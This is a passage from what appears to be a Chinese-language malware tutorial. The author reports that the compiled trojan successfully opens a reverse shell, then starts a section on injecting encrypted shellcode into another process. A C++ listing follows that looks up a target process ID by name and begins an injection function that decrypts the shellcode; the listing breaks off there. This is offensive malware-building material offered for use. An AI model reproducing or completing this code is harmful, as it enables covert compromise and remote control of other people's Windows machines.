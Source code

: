 ![](images/vs4.jpg)

现在我们设起监听，执行编译好的马，是可以成功反弹shell的，你可以试试，不过咱们的马还是存在一些小瑕疵的，[滑稽]。

### 将shellcode注入其他程序执行
shellcode注入是我突发奇想想出来的，其实不注入直接执行也可以。
```cpp
#include <string>
#include <iostream>
#include <iostream>
#include <windows.h>
#include <tlhelp32.h>

// 根据进程名搜索PID
// 根据进程名搜索PID
const unsigned int get_pid(std::string process_name) {
  PROCESSENTRY32 pe32;
  HANDLE hProcSnap = ::CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (hProcSnap == INVALID_HANDLE_VALUE) {
    return 0;
  }
  pe32.dwSize = sizeof(PROCESSENTRY32);
  // 遍历进程
  for (BOOL ret = Process32First(hProcSnap, &pe32); ret;
       ret = Process32Next(hProcSnap, &pe32)) {
    if (process_name == pe32.szExeFile) {
      CloseHandle(hProcSnap);
      return pe32.th32ProcessID;
    }
  }
  CloseHandle(hProcSnap);
  return 0;
}

// 注入函数
bool inject_shellcode(const unsigned int pid, unsigned char* shellcode,
                     size_t size) {
  // 解密shellcode
  decrypt_shellcode(shellcode, size);
```